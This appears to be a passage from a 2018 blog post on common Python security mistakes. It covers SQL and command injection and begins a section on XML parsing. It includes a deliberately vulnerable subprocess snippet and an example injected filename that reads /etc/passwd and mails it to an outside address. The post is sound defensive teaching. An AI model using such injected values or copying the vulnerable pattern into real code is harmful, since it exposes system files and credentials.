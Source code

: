 blog_heading: 10 common security gotchas in Python and how to avoid them
blog_subheading: A list of common security holes in Python applications, what causes them and how not to make those mistakes.
blog_header_image: posts/danger-snake.jpeg
blog_author: Anthony Shaw
blog_publish_date: June 18, 2018
---
Writing secure code is hard. When you learn a language, a module or a framework, you learn how it __supposed to be use__. When thinking about security, you need to think about __how it can be misused__. Python is no exception, even within the standard library there are documented bad practices for writing hardened applications. Yet, when I’ve spoken to many Python developers they simply aren’t aware of them.

Here are my top 10, __in no particular order__, common gotchas in Python applications.

## 1. Input injection

Injection attacks are broad and really common and there are many types of injection. They impact all languages, frameworks and environments.

**SQL injection** is where you’re writing SQL queries directly instead of using an ORM and mixing your string literals with variables. I’ve read plenty of code where “escaping quotes” is deemed a fix. **It isn’t**. Familiarise yourself with all the complex ways SQL injection can happen with [this cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/).

**Command injection** is anytime you’re calling a process using popen, subprocess, os.system and taking arguments from variables. When calling local commands there’s a possibility of someone setting those values to something malicious.

Imagine this simple script ([credit](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)). You call a subprocess with the filename as provided by the user:

```python
import subprocess

def transcode_file(request, filename):
    command = 'ffmpeg -i "{source}" output_file.mpg'.format(source=filename)
    subprocess.call(command, shell=True)  # a bad idea!
```

The attacker sets the value of filename to `"; cat /etc/passwd | mail them@domain.com` or something equally dangerous.

### Fix:

Sanitise input using the utilities that come with your web framework, if you’re using one. Unless you have a good reason, don’t construct SQL queries by hand. Most ORMs have builtin sanitization methods.

For the shell, use the `shlex` module to escape input correctly.

## 2. Parsing XML

If your application ever loads and parses XML files, the odds are you are using one of the XML standard library modules. There are a few common attacks through XML. Mostly DoS-style (designed to crash systems instead of exfiltration of data). Those attacks are common, especially if you’re parsing external (ie non-trusted) XML files.
